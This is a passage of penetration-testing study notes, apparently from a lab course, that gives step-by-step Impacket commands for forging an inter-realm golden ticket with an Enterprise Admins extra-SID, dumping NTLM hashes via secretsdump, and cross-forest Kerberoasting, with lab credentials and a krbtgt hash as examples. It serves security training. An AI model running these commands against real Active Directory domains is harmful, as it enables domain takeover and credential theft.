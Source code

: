 ```
logistics.inlanefreight.local
####

#### Step 5: getting the SID of the Enterprise Admins group of the root domain
lookupsid.py $targetedDomain/$UserWithAdminPriv@$DomainControllerIP | grep "Enterprise Admins"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep "Enterprise Admins"
# Enter password: HTB_@cademy_stdnt_admin!
# Results: 519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
####

#### Step 6: Generate a golden ticket 
ticketer.py -nthash $KRBTGThashOfChildDomain -domain $targetedDomain -domain-sid $sidDomain -extra-sid $SIDofEnterpriseAdminGroup $madeupUserName
# Example:
# ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials:
[*] Saving ticket in hacker.ccache

# Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.
export KRB5CCNAME=hacker.ccache 
####

#### Step 7: Accessing another user on domain
# With one user, we will request the NTLM hash for another user
secretsdump.py $ControlledUsername@$hostnameController.$Parentdomain -k -no-pass -just-dc-ntlm -just-dc-user $targetUsername
# Example:
# secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-ntlm -just-dc-user bross

```

### 🌳 Cross-Forest Kerberoasting

 Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.
 
To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command.
 
```shell-session
GetUserSPNs.py -target-domain $targetedDomain $OurDomain/$ourUserSamAccountName
# Example:
# GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
# Enter password: transporter@4
```
